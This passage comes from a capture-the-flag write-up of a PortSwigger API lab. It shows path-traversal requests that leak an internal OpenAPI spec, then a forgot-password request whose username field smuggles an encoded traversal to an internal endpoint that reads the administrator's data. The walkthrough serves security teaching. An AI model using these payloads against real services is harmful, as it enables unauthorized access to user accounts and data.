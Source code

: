 ```http
GET /api/users/foobar/../../../../../openapi.json#/email
```

After path normalization:

```http
GET /openapi.json
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/API-Testing/API-5/images/Pasted%20image%2020240510191841.png)

Nice! We get the internal API documentation!

Beautified: 
```json
{
  "openapi": "3.0.0",
  "info": {
    "title": "User API",
    "version": "2.0.0"
  },
  "paths": {
    "/api/internal/v1/users/{username}/field/{field}": {
      "get": {
        "tags": [
          "users"
        ],
        "summary": "Find user by username",
        "description": "API Version 1",
        "parameters": [
          {
            "name": "username",
            "in": "path",
            "description": "Username",
            "required": true,
            "schema": {
        ...}
```

**In the `paths` attribute, we can see there's a route:**
```
/api/internal/v1/users/{username}/field/{field}
```

In the above route, we can see there's a parameter called `field`. **It seems like it's referring to the `user` object's attribute (`field`)**!

Armed with above information, we can try to get `administrator`'s user object attribute `username`'s value for testing:

```http
POST /forgot-password HTTP/2

csrf=jzd7KrpvqB9nYMaDfeD9faWWUgNf8jBh&username=foobar%2f..%2f..%2f..%2f..%2f..%2f/api/internal/v1/users/administrator/field/username%23
```
